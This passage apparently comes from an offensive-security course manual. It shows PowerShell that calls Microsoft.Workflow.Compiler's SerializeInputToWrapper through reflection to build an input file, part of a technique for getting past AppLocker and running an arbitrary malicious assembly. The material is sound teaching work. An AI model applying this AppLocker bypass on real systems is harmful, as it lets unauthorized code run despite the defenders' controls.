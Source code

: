 Once we have set up the argument values, we can call the method through reflection with the _Invoke_ method:

```
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$pathvar = "test.txt"
$output = "C:\Tools\test.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
Move-Item $tmp $output
```

> Listing 44 - Defining arguments and calling SerializeInputToWrapper

After executing the code, we can dump the contents of the generated file to view the serialized content:

```
PS C:\Tools> type C:\Tools\test.xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
  <files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
    <d2p1:string>test.txt</d2p1:string>
  </files>
  <parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
    <assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
...
```

> Listing 45 - Contents of serialized XML file generated by SerializeInputToWrapper

Note that the XML file was generated from an administrative PowerShell console in the context of the "Offsec" user to avoid AppLocker. This means that the "student" user cannot access it before we modify the file permissions.

We notice two things from the contents of the file. First, the file path we supplied has been embedded into it and will be used with the call to _Compile_ once the file is deserialized. Second, quite a few compiler flags have been added, but at this time we do not know if the values they contain will lead us down the correct code path in order to process and execute an arbitrary malicious assembly file.

With an understanding of how we can generate an input file that will be deserialized correctly by Microsoft.Workflow.Compiler, we must return to dnSpy. Our goal is to determine what file format and content the file name embedded in the XML file should have, and which compiler flags are required to reach the compilation, loading, and subsequent execution sections.

After returning to the _Main_ method of Microsoft.Workflow.Compiler in dnSpy, we find that the next call is to _Compile_, where the deserialized parameters and file names are supplied as arguments.
